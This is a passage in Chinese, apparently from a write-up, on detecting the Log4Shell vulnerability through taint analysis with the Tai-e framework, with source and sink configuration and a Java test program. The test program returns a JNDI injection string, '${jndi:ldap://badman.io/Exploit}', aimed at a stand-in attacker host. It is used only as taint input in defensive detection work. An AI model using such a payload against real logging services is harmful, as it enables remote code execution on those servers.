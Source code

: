 ## 0x03 如何分析 Log4Shell

#### 3a 设置 source 和 sink

Log4Shell 本质上是个注入漏洞（Injection），可通过污点分析（Taint Analysis）进行检测，该漏洞的入口方法、利用方法如下所示。

```bash
Logger.error(...)
            ⬇️
            ...
    JNDI Lookup
```

使用太阿提供的测试主程序：

```bash
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Server {

    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(Server.class);
        String input = getInput();
        logger.error(input);
    }

    private static String getInput() {
        return "${jndi:ldap://badman.io/Exploit}";
    }
}
```

Sources：标记为用户输入。污点数据来源于 Main 的 getInput() 方法，当系统调用该方法时获得污点数据。

```bash
sources:
- {kind: call, method: "<Main: java.lang.String getInput()>", index: result}
```

Sinks：对应的是 JNDI Lookup，在 log4j 中是调用 InitialContext 的 lookup() 方法来启动 JNDI 的 lookup，所以可以把 Sink 标记为 javax.naming.InitialContext.lookup(String) 。

```bash
sinks: 
- { method: "<javax.naming.InitialContext: java.lang.Object lookup(java.lang.String)>", index: 0}
```

污点分析要做的内容，就是找出 error 到 JNDI Lookup 的一条传播路径。

实践检测 Log4Shell 时遇到的挑战：

-   跨越 33 层方法调用
-   污点数据多次变换形态
-   过程涉及多种反射 API，也可能导致数据流追踪断掉

#### 3b 自创建测试项目
